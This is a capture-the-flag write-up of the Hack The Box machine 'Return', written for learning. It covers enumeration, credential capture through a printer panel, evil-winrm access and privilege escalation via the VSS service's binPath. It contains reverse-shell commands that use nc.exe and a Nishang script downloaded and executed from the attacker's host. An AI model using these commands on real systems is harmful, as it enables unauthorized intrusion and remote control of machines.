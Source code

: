 # Return

This is my walk-through of the machine located at: [https://app.hackthebox.com/machines/Return](https://app.hackthebox.com/machines/Return).

nmap scan: `nmap -T4 -A 10.10.11.108 -oN return.nmap`

```
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-20 15:01 EST
Nmap scan report for 10.10.11.108
Host is up (0.034s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-12-20 20:26:53Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=12/20%OT=53%CT=1%CU=36731%PV=Y%DS=2%DC=T%G=Y%TM=61C0E1
OS:40%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=105%TI=I%CI=I%II=I%SS=S%TS
OS:=U)OPS(O1=M54DNW8NNS%O2=M54DNW8NNS%O3=M54DNW8%O4=M54DNW8NNS%O5=M54DNW8NN
OS:S%O6=M54DNNS)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y
OS:%DF=Y%T=80%W=FFFF%O=M54DNW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD
OS:=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%
OS:S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD
OS:=Z)

Network Distance: 2 hops
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 25m06s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-12-20T20:27:06
|_  start_date: N/A

TRACEROUTE (using port 995/tcp)
HOP RTT      ADDRESS
1   39.17 ms 10.10.14.1
2   33.44 ms 10.10.11.108

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.10 seconds
```

I then went on the IP Address and found this page:

![](<../../.gitbook/assets/image (342) (1) (1) (1).png>)

I then ran **gobuster** on the IP Address: `gobuster dir -u 10.10.11.108 -w directory-list-2.3-big.txt -t 60`. I ended up with the following, which wasn't very helpful:

![](<../../.gitbook/assets/image (326) (1).png>)

I then tried found the nmap command to enumerate ldap: `nmap -p 389 --script ldap-brute --script-args ldap.base='"cn=users,dc=cqure,dc=net"' 10.10.11.108`.The nmap script was taking a while, so I went to the walk-through to see where I had gotten off of track. I found out that I should use **enum4linux** in order to enumerate for SMB: `enum4linux -a 10.10.11.108`. I then found this information:

![](<../../.gitbook/assets/image (329) (1) (1) (1).png>)

The walk-through mentioned that we should enter our own IP Address in the **Server Address** section on the website. Using that I got a shell:

![](<../../.gitbook/assets/image (345) (1) (1) (1) (1).png>)

The walk-through then mentioned using the **evil-winrm** tool. I learned that, while I was able to overwrite the password for the svc-printer user, it would be overwritten by its own system. The walk-through pointed out that the password would be what is shown by the output of netcat connection previously:

![](<../../.gitbook/assets/image (334) (1) (1).png>)

Looking around, I was able to find the **user.txt** flag in the Desktop of the svc-printer user:

![](<../../.gitbook/assets/image (335) (1) (1).png>)

I am not too familiar with Windows commands, so the walk-through mentioned running the `net user svc-printer` command:

![](<../../.gitbook/assets/image (344) (1) (1) (1).png>)

Again, I had to view the write-up to see where to go from here. From the commands, you are uploading netcat onto the system, and then configuring netcat to be run and connect to your machine:

`upload /usr/share/windows-resources/binaries/nc.exe`&#x20;

`sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe <YOUR-IP> 1234"`. After having a netcat listener setup on another tab, I was able to get a connection:

![](<../../.gitbook/assets/image (330) (1).png>)

The official walk-through got me to become root, however, I was not able to do anything on the machine. I then found this [write-up](https://readysetexploit.wordpress.com/2021/10/12/hack-the-box-return/) that helped me setup a proper shell. Here are the commands I used:

```
Download the Nishang script for Powershell:
https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1

Have a netcat listener opened in another teminal window (using rlwrap):
rlwrap nc -lvnp <PORT>

Have a python3 http server online on another teminal window:
sudo python3 -m http.server 80

Upload that to the server with the evil-winrm terminal:
sc.exe config vss binPath="C:\Windows\System32\cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.10/Invoke-PowerShellTcp.ps1')"

Restart the executable:
sc.exe stop VSS
sc.exe start VSS
```

I was then able to get the root.txt file:

![](<../../.gitbook/assets/image (332) (1) (1).png>)
